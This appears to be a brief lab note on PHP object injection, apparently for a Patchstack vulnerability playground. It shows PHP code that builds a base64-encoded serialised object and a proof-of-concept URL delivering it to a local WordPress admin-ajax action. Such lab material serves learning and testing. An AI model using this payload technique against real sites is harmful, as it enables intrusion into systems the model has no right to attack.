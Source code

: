 # PHP Object Injection

https://github.com/patchstack/vulnerability-playground/blob/main/phpoi/init.php

```php
<?php

class ObjectInjection
{
   public $test;

   
}

$obj = new ObjectInjection();
$obj->test = "0xbro was here";

$out = base64_encode(serialize($obj));
echo $out;

?>

// PoC: http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=load_ig_data&data=test:TzoxNToiT2JqZWN0SW5qZWN0aW9uIjoxOntzOjQ6InRlc3QiO3M6MTQ6IjB4YnJvIHdhcyBoZXJlIjt9
```